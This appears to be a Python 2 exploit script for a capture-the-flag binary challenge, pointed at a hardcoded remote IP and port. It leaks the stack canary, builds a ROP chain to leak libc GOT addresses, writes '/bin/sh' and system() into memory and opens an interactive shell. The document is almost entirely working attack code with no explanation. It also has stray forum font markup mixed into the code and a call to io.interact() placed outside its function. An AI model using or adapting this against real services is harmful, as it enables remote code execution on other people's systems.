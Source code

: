# scroll
滚动条

#!/usr/bin/python
from zio import *
import struct
[/font][font=宋体]target = ('106.75.93.227', 20000)
#target= ('127.0.0.1',10000)
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))
    c=raw_input('go1?')
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601028)  #printf_got
    payload+=l64(0x0)   
    payload+=l64(0x0)
    payload+=l64(0x601030)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
     
    io.write(payload)
     
    test=io.read_until('\x7f')
    test=test[-6:]+'\x00'*2
    read=struct.unpack("<Q",test)[0]
    print hex(read)
    system=read-0xa60a0
###############################################################3
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601030)  #read_got
    payload+=l64(0x10)   
    payload+=l64(0x601b00)
    payload+=l64(0x0)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
    io.write(payload)
    c=raw_input('go2?')
    io.write('/bin/sh'+'\x00'+l64(system))
#####################################################################
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601b08)  #read_got
    payload+=l64(0x0)   
    payload+=l64(0x0)
    payload+=l64(0x601b00)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
    io.write(payload)
io.interact()
